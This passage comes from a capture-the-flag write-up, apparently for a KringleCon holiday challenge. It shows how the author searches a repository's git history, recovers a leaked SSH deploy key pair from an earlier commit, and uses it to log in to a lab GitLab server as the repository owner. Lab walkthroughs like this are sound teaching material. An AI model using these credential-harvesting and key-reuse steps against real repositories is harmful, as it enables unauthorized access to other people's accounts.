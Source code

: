 ```

    added assets
…
```

A few commits down, we can see that commit ID ```e19f653bde9ea3de6af21a587e41e7a909db1ca5``` has a commit message of "whoops". That's almost definitely our culprit. If the "whoops" commit is where knee-oh realized their mistake, let's check out the commit before it and see if we can find something.

```
grinchum-land:~/wordpress.flag.net.internal$ git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
...
grinchum-land:~/wordpress.flag.net.internal$ ls -la
total 48
drwxr-xr-x 5 samways users  4096 Jan  7 01:56 .
drwxr-xr-x 1 samways  1002  4096 Jan  7 01:52 ..
drwxr-xr-x 8 samways users  4096 Jan  7 01:56 .git
drwxr-xr-x 2 samways users  4096 Jan  7 01:56 .ssh
-rw-r--r-- 1 samways users 19915 Jan  7 01:52 license.txt
-rw-r--r-- 1 samways users  7401 Jan  7 01:52 readme.html
drwxr-xr-x 6 samways users  4096 Jan  7 01:52 wp-content
```

If we needed to, we could have compared this revision to the one after it to see what changed, but since we've spotted a ```.ssh``` directory in this folder, there's really no need.

```
grinchum-land:~/wordpress.flag.net.internal$ cd .ssh/
grinchum-land:~/wordpress.flag.net.internal/.ssh$ ls -la
total 16
drwxr-xr-x 2 samways users 4096 Jan  7 01:56 .
drwxr-xr-x 5 samways users 4096 Jan  7 01:56 ..
-rw-r--r-- 1 samways users  411 Jan  7 01:56 .deploy
-rw-r--r-- 1 samways users  102 Jan  7 01:56 .deploy.pub
grinchum-land:~/wordpress.flag.net.internal/.ssh$ cat .deploy.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com
```

We'll add these SSH keys to our own ```.ssh``` directory for simplicity's sake:

```
grinchum-land:~/wordpress.flag.net.internal/.ssh$ mkdir ~/.ssh
grinchum-land:~/wordpress.flag.net.internal/.ssh$ mv .deploy.pub ~/.ssh/id_ed25519.pub
grinchum-land:~/wordpress.flag.net.internal/.ssh$ mv .deploy ~/.ssh/id_ed25519
grinchum-land:~/wordpress.flag.net.internal/.ssh$ chmod 600 ~/.ssh/*
```

At this point, there's several ways to attempt to use this SSH cert (believe us, we tried), but only one will work: we can use these keys to authenticate to the Gitlab server as "knee-oh", the owner of the repo!

```
grinchum-land:~/wordpress.flag.net.internal/.ssh$ ssh git@gitlab
The authenticity of host 'gitlab (172.18.0.150)' can't be established.
ED25519 key fingerprint is SHA256:jW9axa8onAWH+31D5iHA2BYliy2AfsFNaqomfCzb2vg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'gitlab' (ED25519) to the list of known hosts.
PTY allocation request failed on channel 0
Welcome to GitLab, @knee-oh!
Connection to gitlab closed.
```
